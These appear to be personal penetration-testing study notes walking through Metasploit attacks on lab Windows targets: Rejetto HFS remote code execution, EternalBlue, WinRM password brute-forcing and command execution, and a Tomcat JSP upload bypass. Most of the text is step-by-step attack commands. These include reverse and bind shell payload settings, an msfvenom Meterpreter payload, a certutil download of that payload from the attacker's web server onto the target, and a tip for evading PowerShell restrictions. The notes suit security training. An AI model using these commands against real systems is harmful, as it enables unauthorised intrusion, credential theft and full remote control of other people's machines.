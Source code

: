 

### Exploiting A vulnerable HTTP File server 

Http File server
- Web server that is designed for file & document sharing 
	- you can only host files (not websites etc)
	- webserver can be used for files and doc but can also be utilized to host a website
- HTTP file servers run on port 80 and use HTTP protocol for underlying communication 
- Rejetto HFS is a popular free and open source HTTP file server that can be setup on Windows and Linux 
- Rejetto HFD V2.3 is vulnerable to remote command and execution attacks 
- MSF has an exploits module that we can utilize to gain access to the target system hosting the HFS 
  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds

1. start up `postgreql` database 
2. start up `msfconsole` 
3. create workspace: `workspace -a HFS`
4. set up global variable: `setg rhosts target `
5. start with nmap scan: `db_nmap -sS -sV -O target ` the results will be stored in workspace 
6. directly search in msfconsole for module: `search type:exploit name:rejetto `
7. `use  exploit/windows/http/rejetto_hfs_exec ` -> `run` 
8. We can set payload to: `set payload windows/x64/meterpreter/reverse_tcp `
9. set `LPORT` and `LHOST` -> `run` 


### Exploiting the Windows MS17-010 SMB Vulnerability 
- the name of the exploit is EternalBlue 
- EternalBlue is a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is part of 
- Takes advantage of vulnerability in Windows SMBv1 
- used in wannacry attack 
- Eternal Blue has MSF auxiliary module that can be used to check if a target system is vulnerable 
- Important: The Eternal Blue exploit will give us a *priviliged* meterpreter session on target system instead of a standard non-priviliged meterpreter session. This means complete control over the target system 

1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -O target` 
5) `services` (show the identified services in nmap)
6) find module that can see if system is vulnerable: `search type: auxiliary name: EternalBlue`
7) `use aux/scanner/smb/smb_ms17_010 `
8) if the results indicate that the system is vulnerable, look for the exploit: `search type:exploit name:EternalBlue ` --> `exploit/windows/smb/ms17_010_eternalblue`
9) check priviliged: `getuid` 
   (NT) AUTORITY SYTEM = highest priviliged possible (elevated meterpreter session no need for priviliged escalation)


### Exploiting WinRM (Windows Remote Management Protocol)

- WinRM is used for: 
	- Remotely access and interact with Windows hosts on a local network 
	- Remotely access and execute commands on Windows systems on the internet 
	- Manage and configure Windows system remotely 
- uses tcp port 5985 and 5986 
- Exploiting WinRM
	- WinRM implements access control and security for communication between systems through various forms of authentication 
	- Utilize the MSF to identify WinRM users and their passwords as well as execute commands on the target system 
	- Utilize a MSF WinRM exploit module to obtain a meterpreter session on the target system 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) `services`  (port 5985 of 5986 is winrm)
6) check authentication methods supported on target: `search type: auxiliary name: winrm` 
7) `use aux/scanner/winrm/winrm_auth_methods` --> `run` 
   ![[Pasted image 20230824215722.png]]
	Negotiate protocol supported, basic protocol supported means that we can do a bruteforce on the username and passwords. 
8) prepare the bruteforce: `search winrm_login` -> `use auxiliary/scanner/winrm/winrm_login `
	1) set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	2) set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
9) when you have a hit on bruteforce, we will try to use the credentials `search winrm_cmd ` 
	1) `use auxiliary/scanner/winrm/winrm_cmd `
	2) `set USERNAME administrator `
	3) `set PASSWORD tinkerbell `
	4) specify command to run on target system to confirm that we have access: `set CMD whoami`
10) get meterpreter session through module: winrm_script 
	1) use exploit/windows/winrm/winrm_script_exec 
	2) set passwords,targetip,targeturi,username,lhost,lport 


![[Pasted image 20230824220529.png]]
When you have an issue with runtime -> set the force VBS (visual basic option) instead of the powershell command stager: `set FORCE_VBS true `. This can be useful if PowerShell is restricted or if VBS is more likely to bypass security controls on the target system. VBS is a scripting language developed by Microsoft. It's often used for administrative tasks and automation on Windows systems. In the context of penetration testing, it can be a viable alternative to PowerShell for executing commands or scripts on a target Windows machine. **PowerShell Command Stager**: PowerShell is a powerful scripting language on Windows systems. A "command stager" in Metasploit is a technique for delivering and executing payloads. However, in some scenarios, PowerShell may be restricted or blocked by security measures on the target system. 




###  Exploiting Vulnerable Apache Tomcat Web server 

- Apache Tomcat is open source Java servlet web server 
- used to build dynamic websites and web applications based on the Java software platform 
- Apache Tomcat uses HTTP protocol 
- Apache uses TCP port 8080 by default 

Difference between Apache and Apache Tomcat? 
- Standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP 
- the Apache Tomcat web server is **primarily** used to host dynamic websites or web applications developed in Java. 
- Apache Tomcat V8.5.19 is vulnerable to remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server. 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) search for exploit for tomcat: `search type:exploit tomcat_jsp ` 
6) `use exploit/multi/http/tomcat_jsp_upload_bypass `
7) in options you do not see payload but when you type info you see more info about the payload. for this exploit you can only use a jsp (java) payload 
	`set payload java/jsp_shell_bind_tcp`
8) specify shell command - target is windows so we can use cmd: `set SHELL cmd`
	now we have access to target but not in meterpreter session but this is a command shell session. Lets out that in the background `control + z `
9) set up meterpreter session: 
	1) open new tab 
	2) generate payload with msfvenom (windows meterpreter): `msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=kali LPORT=1234 -f exe > meterpreter.exe `
	3) set up simple webserver within current directory to host the files: `sudo python -m SimpleHTTPServer 80 `
	4) go back to previous windows (tomcat) with simple shell session and get the session back: `sessions` -> `sessions 1 ` 
		1) download the files on target system, hosted on webserver: `certutil -urlcashe -f http://kali-ip/meterpreter.exe meterpreter.exe 
		2) check if file is downloaded on target: `dir` 
		3)  terminate the webserver after successfull download: control + c 
10) set up handler:
		1) create resource script: `vim handler.rc `
			1) `use multi/handler
			2) `set PAYLOAD windows/meterpreter/reverse_tcp `
			3) `set LHOST kali  ip` 
			4) `set LPORT 1234`
			5) `run` 
		2) `msfconsole -r handler.rc `
11) execute meterpreter payload on target system, in tomcat window run: `.\\meterpreter.exe `





